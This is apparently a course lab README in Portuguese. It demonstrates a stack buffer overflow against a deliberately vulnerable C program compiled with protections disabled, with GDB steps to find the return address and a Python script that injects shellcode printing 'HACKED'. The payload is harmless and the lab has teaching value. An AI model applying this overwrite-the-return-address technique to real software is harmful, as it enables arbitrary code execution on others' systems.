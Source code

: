# Segurança de Software 2020

## 1 - HACKED VIRUS
### Descrição
Ataque por Buffer Overflow a um programa em C que lê ficheiro e escreve o seu conteúdo em memória.

#### Compilação
```bash
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack stack.c -o stack
```

#### Ferramentas utilizadas
* [GDB GEF](https://github.com/hugsy/gef) - Debbug
* [Python](https://www.python.org/) - Desenvolvimento do exploit
* [Objdump](https://sourceware.org/binutils/docs/binutils/objdump.html) - Visualização

#### Ficheiros auxiliares
* teste_stack_exec.c - Verificar compilação.
* findPrintf.c - Encontrar endereço da função printf.
* Virus.c - Para compilar o virus pretendido.

#### Passos
* Visualização do código fonte (stack.c)
```c
void foo(char *str, int s)
{
    char buffer[32];
    /* buffer overflow here */
    cpy(buffer, str, s);
}
```
* Causa erro
```bash
python -c 'print "A"*8*5' > smasher; ./stack
```
* Debbug (GDB)
```bash
gdb stack
```
Meter um BreakPoint no fim da função foo, antes de haver um retorno à main e correr.
```bash
gef> disas foo
```
```bash
gef> b * 0x0000000000401198
```
```bash
gef> run
gef> fin
```
Como se pode ver na imagem seguinte,  o $rip (0x0000000000401206) está a apontar para a posição de memória da função main, de forma a continuar o fluxo de programa normalmente. Vamos tentar perceber em que sitio da memoria este apontador está.

![Image 1](Lib/1.png)

 Vamos agora ver com mais atenção o conteúdo da stack, utilizando como referencia o $rdi.
 ```bash
gef> x/100x 0x00007fffffffdf90 - 32
```
Como podemos ver na imagem seguinte, encontrámos os nossos  32 "A"'s (0x41) na stack, será que encontramos também o endereço de retorno? Terá que conter, como já vimos, o endereço: 0x0000000000401206
Na imagem seguinte encontramos o nosso target!
//IMAGEM2

Assim sendo, podemos agora concluir que para escrever o nosso exploit de forma a que corra o nosso vírus, teremos que chegar à posição de retorno e escrever lá um endereço a nosso favor. Para além dos 32 bytes do buffer, temos ainda o $ebp com 8 bytes. sendo os próximos 8 bytes para o endereço de retorno. 

* Compilar virus
Vamos compilar o nosso virus e passá-lo para hexadécimal de forma a ser mais fácil a sua inserção no ficheiro.
```bash
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack virus.c -o virus
```
Agora vamos copiar o código assembly para um ficheiro.
```bash
objdump virus -d
```
Vamos então começar a escrever o nosso exploit em Python
```python
buf = ('A' * 32).encode() #41
ebp = ('B' * 8).encode()  #42
call_virus = b'\xc0\xdf\xff\xff\xff\x7f\x00\x00'

virus =  b'\x55\x48\x89\xe5\x48\x83\xec\x20'
virus += b'\x89\x7d\xec\x48\x89\x75\xe0\xc6'
virus += b'\x45\xf8\x48\xc6\x45\xf9\x41\xc6'
virus += b'\x45\xfa\x43\xc6\x45\xfb\x4b\xc6'
virus += b'\x45\xfc\x45\xc6\x45\xfd\x44\xc6'
virus += b'\x45\xfe\x0a\xc6\x45\xff\x00\x48'
virus += b'\x8d\x45\xf8\x48\xba\x20\xea\xe4'
virus += b'\xf7\xff\x7f\x00\x00\x48\x89\xc7'
virus += b'\xb8\x00\x00\x00\x00\xff\xd2\xeb'
virus += b'\xe6\x0f\x1f\x44\x00\x00\x00\x00'

exploit = (buf + ebp + call_virus + virus)

file_name = 'smasher'
f = open(file_name, 'wb') #write bytes
f.write(exploit)
f.close()
```

Vamos então ver se resultou.

```bash
python exploit.py
gdb stack
gef> run
#HACKED
#HACKED
#HACKED
#HACKED
#...
```
# HACKED!
